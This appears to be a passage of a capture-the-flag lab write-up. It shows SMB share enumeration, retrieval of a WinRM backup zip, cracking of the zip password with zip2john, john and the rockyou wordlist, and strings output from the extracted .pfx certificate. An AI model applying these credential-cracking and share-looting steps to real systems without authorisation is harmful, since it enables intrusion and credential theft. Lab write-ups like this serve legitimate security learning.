 ```bash
smb: \> ls
  .                                   D        0  Mon Oct 25 10:39:15 2021
  ..                                  D        0  Mon Oct 25 10:39:15 2021
  Dev                                 D        0  Mon Oct 25 14:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 10:48:42 2021

```

smbmap enum  and then smbclientr getting us in the shares

inside one we found a zip so we mget to our kali machine

```bash
unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 

```

Lets crack with john! First we need to turn it into a hash with zip2john

```bash
zip2john winrm_backup.zip > hash.txt
Created directory: /home/sm1gspl0it/.john
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8

```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2025-04-02 15:21) 3.333g/s 11578Kp/s 11578Kc/s 11578KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

strings on this .pfx file shows me some interesting stuff and i learned that .pfx is “is ***password protected file certificate*** commonly used for code signing your application”

```bash
	Er
C(!,
4bz'
`o<l
|Y4W
I0{Q
L(vqQ#
{q[l"8
`+$DOC
hK*y
;5UERr
X!+3
&JCy
$-1f
NAM'u
"-r$$
Legacyy0
211025140552Z
311025141552Z0
Legacyy0
r"*J0:
cZK3
```